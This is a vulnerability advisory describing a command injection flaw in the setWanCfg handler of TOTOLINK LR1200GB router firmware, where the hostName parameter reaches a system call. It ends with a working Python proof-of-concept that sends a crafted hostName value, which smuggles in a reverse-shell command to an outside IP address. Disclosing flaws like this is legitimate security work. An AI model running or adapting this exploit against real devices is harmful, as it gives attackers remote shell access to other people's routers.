



# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setWanCfg` handler function of  `cstecgi.cgi`. When the value of `proto` parameter !=6,
the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.


`proto` parameter:



`hostName` parameter:


## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setWanCfg",
    "token": "00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```

